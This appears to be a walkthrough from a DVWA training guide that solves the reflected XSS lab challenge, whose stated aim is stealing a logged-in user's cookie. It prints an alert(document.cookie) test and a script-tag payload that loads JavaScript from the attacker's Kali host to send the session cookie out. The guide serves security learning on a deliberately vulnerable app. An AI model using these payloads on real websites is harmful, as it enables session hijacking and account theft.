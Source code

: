 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_r/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/README.md">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Note: This challenge is extremely similar to <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>. We'll be using the same web server, exploit, and payload as before, so make sure those are good to go before proceeding.</i>

We see a basic web form with a field we can fill out.

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xssrform.png" width="500">

When we input a name into the field and click the "Submit" button, we see the string "Hello [inputted_name]" returned back to us.

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xssrtest.png" width="500">

Interesting. Can we cause an <code>alert</code> popup to occur using this field?

<code>&#60;script&#62;alert(document.cookie)&#60;/script&#62;</code>

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xssrtestalert.png" width="500">

<i>Note that I actually input <code>document.cookie.split(";")[0]</code> as my payload, in order to hide my session ID. Just a privacy thing for me. You don't have to do that, and it impacts nothing besides what you see in my screenshots.</i>

Perfect! Instead of using <code>alert()</code>, let's use our previous exploit/payload combo from <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>.

<code>&#60;script src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/script&#62;</code>

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xssrexploit.png" width="500">

If we inspect the form's source code after we input the exploit, we see it's been successfully inserted into the page:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xssrsource.png" width="500">

And examining the Python web server logs shows the cookie:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xssrcookie.png" width="500">

Easy enough! Challenge complete.
